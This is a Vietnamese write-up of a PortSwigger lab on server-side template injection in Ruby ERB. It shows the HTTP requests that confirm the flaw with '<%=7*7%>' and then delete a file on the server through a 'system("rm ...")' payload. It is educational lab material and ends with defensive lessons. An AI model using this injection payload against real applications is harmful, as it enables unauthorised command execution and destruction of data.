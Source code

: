 # Write-up: Basic server-side template injection

### Tổng quan
Khai thác lỗ hổng **Server-Side Template Injection (SSTI)** trong ứng dụng web sử dụng template engine ERB (Embedded Ruby), nơi tham số `message` trong URL không được lọc, cho phép thực thi mã Ruby tùy ý. Bằng cách sử dụng payload ERB để thực thi lệnh hệ thống, kẻ tấn công xóa file `/home/carlos/morale.txt` và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **SSTI** trong ERB qua tham số `message`, xác nhận khả năng thực thi mã với payload `<%= 7*7 %>`, và sử dụng lệnh `system` để xóa file `/home/carlos/morale.txt`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Khai thác ERB**  
- Khi chọn xem sản phẩm đầu tiên, server trả về thông báo `Unfortunately this product is out of stock` với URL chứa tham số:  
    ```
    GET /product?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2
    Host: 0am9020u21vw2345q0rs190100tu00rq.web-security-academy.net
    ```  
- **Phân tích**: Tham số `message` có thể được kiểm soát, nghi ngờ tồn tại lỗ hổng SSTI trong template engine:  
    ![Thông báo sản phẩm](./images/1_message.png)  

- Thử payload SSTI cơ bản cho ERB:  
    ```
    GET /product?message=<%=7*7%> HTTP/2
    Host: 0am9020u21vw2345q0rs190100tu00rq.web-security-academy.net
    ```  
- Kết quả: Server trả về giá trị `49`, xác nhận ứng dụng sử dụng ERB và tồn tại lỗ hổng **SSTI**:  
    ![Kết quả SSTI ERB](./images/2_ssti.png)  

2. **Sử dụng lệnh system để thực thi lệnh shell**  
- Sử dụng payload ERB để thực thi lệnh `rm /home/carlos/morale.txt`:  
    ```
    GET /product?message=<%=system("rm%20/home/carlos/morale.txt")%> HTTP/2
    Host: 0am9020u21vw2345q0rs190100tu00rq.web-security-academy.net
    ```  
    ![rn](./images/3_true.png)
    
- Kết quả: File `/home/carlos/morale.txt` bị xóa, lab xác nhận hoàn thành:  
    ![Lab hoàn thành](./images/4_solved.png)  

- **Ý tưởng payload**:  
  - Sử dụng SSTI trong ERB để thực thi lệnh hệ thống qua hàm `system`, xóa file `/home/carlos/morale.txt`.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng **Server-Side Template Injection** trong ERB, sử dụng cú pháp `<%= %>` để thực thi mã Ruby và lệnh hệ thống như `rm`.  
- Nhận thức tầm quan trọng của việc lọc và mã hóa đầu vào người dùng trong template engine, vô hiệu hóa thực thi mã Ruby trong ERB, và hạn chế quyền truy cập hệ thống trong môi trường production.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Server-Side Template Injection** trong ERB, nhấn mạnh tầm quan trọng của việc lọc đầu vào và bảo vệ template engine để ngăn chặn thực thi lệnh hệ thống trái phép. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*
